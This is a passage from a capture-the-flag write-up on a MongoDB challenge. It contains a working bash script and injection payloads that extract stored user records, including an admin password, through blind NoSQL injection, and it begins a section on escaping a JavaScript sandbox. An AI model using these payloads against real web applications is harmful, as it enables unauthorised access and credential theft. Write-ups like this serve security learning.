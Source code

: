 ```bash
#!/bin/bash

URL="http://challenges.ka0labs.org:31337/avatar/"
injection=''

while true; do
    echo "Try '$injection'"
    for c in {'{','}','\s',',',':','_','!','@','"','\[','\]','\(','\)','\.',{a..z},{0..9},{A..Z}}; do
        res="$(curl -s -I "${URL}$(echo -ne "Cactus\"&&tojsononeline(this).match(/^${injection}${c}(.*)$/)||\"" | base64 | tr -d '\n')")"
        echo "$res" | grep -q "Location: /imgs/.*.png"
        if [ $? -eq 0 ]; then
            echo "Match '$c'"
            injection="$injection$c"
            break
        fi
    done
done
```

After some test & error (special chars may give problems), and sooome time (using threads would had been nice) we get the following structure:

`{\s\s"_id"\s:\sObjectId\("57d6bc5c27913d21a0bbad44"\),\s\s"user"\s:\s"Cactus",\s\s"password"\s:\s"CuidadoQueQuemo",\s\s"avatar"\s:\s"cactus\.png",\s\s"admin"\s:\s"NO"\s}`

Since we want the administrator, we need to change our injection a little: `"||this.admin=="YES"&&tojsononeline(this).match(/^(.*)/$)||"`. So we finally get:

`{\s\s"_id"\s:\sObjectId\("57d6bc3c27913d21a0bbad41"\),\s\s"user"\s:\s"MojoJojo",\s\s"password"\s:\s"bubbles{Ih4t3Sup3RG1rrrlz}",\s\s"avatar"\s:\s"mojo\.png",\s\s"admin"\s:\s"YES"\s}`

and the flag!!

#### bubbles{Ih4t3Sup3RG1rrrlz}

## Phase 2 (80 pts)
======

#### Escape JS sandbox mutating objects

Once we have obtained the user and password, we can login (it was easy to figure out the `/admin` panel) and we find a rare shell named `MoJS`.

<img alt="Admin page" src="https://raw.githubusercontent.com/ka0labs/ctf-writeups/master/2016/nn6ed/imgs/mongojojo-3.png">

Again, if we read the source code we see that whatever we type in the terminal is sent via websockets and we get a response (mostly some kind of syntax error). Additionally, we can read some HTML comments giving some information about the "sandbox" or the languaged used:

```html
 <!--<h3>Notes:</h3>
    <ul>
        Ok, with all that languages out there I sometimes forget my own =_='
        <li> Types: only integers to count
        <li> Operations: addition with '+'
        <li> Auxiliar functions: 'help'
        <li> Assign to 'result' to see output
    </ul>
-->
```
